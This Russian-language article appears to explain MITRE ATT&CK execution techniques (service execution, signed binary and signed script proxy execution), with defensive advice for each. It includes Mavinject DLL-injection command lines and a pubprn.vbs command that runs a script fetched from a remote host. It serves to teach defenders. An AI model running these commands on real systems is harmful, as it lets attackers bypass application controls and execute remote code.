_Рекомендации по защите:_ Ограничивайте доступ к сценариям, таким как VBScript или PowerShell. В Windows настройте параметры безопасности MS Office включив защищенный просмотр и запрет макросов через GPO. Если макросы нужны, то разрешите запуск только подписанных доверенной цифровой подписью макросов. Применяйте микросегментацию и виртуализацию приложений, например, Sandboxie для Windows и Apparmor, Docker для Linux.

### [Запуск служб (Service Execution)](https://attack.mitre.org/wiki/Technique/T1035)

_Система:_ Windows  
_Права:_ Администратор, System  
_Описание:_ Злоумышленники могут выполнить двоичный код, команду или скрипт с помощью специальных методов взаимодействия со службами Windows, например, с помощью _Диспетчера управления службами (SCM)_ можно создавать новые сервисы и модифицировать запущенные.

_Рекомендации по защите:_ Убедитесь, что текущая настройка прав в системе запрещает запуск служб с высокими привилегиями пользователями с низкими привилегиями. Убедитесь, что исполняемые файлы с высоким уровнем разрешений в системе не могут быть заменены или изменены пользователями с более низким уровнем разрешений. Рассмотрите возможность применения средств ограничения запуска потенциально-опасных программ с помощью AppLocker и настройки политик ограничения программного обеспечения (_[Software Restriction Policies](https://technet.microsoft.com/en-us/library/2008.06.srp.aspx)_).

### [Выполнение через подписанные бинарники (Signed Binary Proxy Execution)](https://attack.mitre.org/wiki/Technique/T1218)

_Система:_ Windows  
_Права:_ Пользователь  
_Описание:_ Бинарные файлы, подписанные доверенными цифровыми сертификатами, могут выполняться в системах Windows, защищенных проверкой цифровой подписи. Несколько файлов Microsoft, подписанных по умолчанию при установке Windows, могут быть использованы для проксирования запуска других файлов:  
**Mavinject.exe** — это утилита Windows, которая позволяет выполнять код. Mavinject может использоваться для ввода DLL в запущенный процесс:  
_«C:\\Program Files\\Common Files\\microsoft shared\\ClickToRun\\MavInject32.exe» \[PID\] /INJECTRUNNING \[PATH DLL\]_  
_C:\\Windows\\system32\\mavinject.exe \[PID\] /INJECTRUNNING \[PATH DLL\]_  
**SyncAppvPublishingServer.exe** — может использоваться для запуска powershell-скриптов без запуска powershell.exe.  
Существует ещё _[несколько аналогичных бинарников](https://github.com/api0cradle/UltimateAppLockerByPassList)_.

_Рекомендации по защите:_ Многие подписанные файлы могут не использоваться в вашей системе, поэтому рассмотрите возможность блокирования их запуска.

### [Выполнение через подписанные сценарии (Signed Script Proxy Execution)](https://attack.mitre.org/wiki/Technique/T1216)

_Система:_ Windows  
_Права:_ Пользователи  
_Описание:_ Скрипты, подписанные доверенными сертификатами, могут использоваться для проксирования вредоносных файлов, например, файл _PubPrn.vbs_ подписан сертификатом Microsoft и может использоваться для запуска файла с удаленного сервера:  
_cscript C:\\Windows\\System32\\Printing\_Admin\_Scripts\\ru-RU\\pubprn.vbs 127.0.0.1 script:http\[:\]//192.168.1.100/hi.png_
